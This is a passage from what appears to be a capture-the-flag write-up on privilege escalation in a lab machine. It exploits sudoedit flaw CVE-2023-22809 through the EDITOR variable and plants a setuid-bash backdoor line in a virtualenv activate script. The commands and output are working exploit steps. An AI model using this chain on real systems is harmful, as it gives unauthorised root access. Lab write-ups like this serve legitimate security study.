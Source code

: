 But edwards can not modify `/app/venv/bin/activate`.

```console
edwards@agile:~$ sudo -l
[sudo] password for edwards:
Matching Defaults entries for edwards on agile:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt
```

Looking for privilege escalation regarding sudoedit, I found CVE-2023-22809.

[CVE - CVE-2023-22809](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-22809)

> In Sudo before 1.9.12p2, the sudoedit (aka -e) feature mishandles extra arguments passed in the user-provided environment variables (SUDO_EDITOR, VISUAL, and EDITOR), allowing a local attacker to append arbitrary entries to the list of files to process. This can lead to privilege escalation. Affected versions are 1.8.0 through 1.9.12.p1. The problem exists because a user-specified editor may contain a "--" argument that defeats a protection mechanism, e.g., an EDITOR='vim -- /path/to/extra/file' value.

[Sudoedit Privilege Escalation \| Exploit Notes](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudoedit-privilege-escalation/)

> Exploitation (CVE-2023-22809)
>
> export EDITOR="vim -- /etc/sudoers"
> sudoedit /opt/example.txt

```console
edwards@agile:~$ sudo --version
Sudo version 1.9.9
Sudoers policy plugin version 1.9.9
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.9
Sudoers audit plugin version 1.9.9
```

This CVE is available.

```console
edwards@agile:~$ EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/config_test.json
sudoedit: --: Permission denied
2 files to edit
```

When `/app/venv/bin/activate` opens in VIM, append it to add command to copy `/tmp/rootbash` as the following:

```bash
# This file must be used with "source bin/activate" *from bash*
# you cannot run it directly

cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash

deactivate () {
# (snip)
```
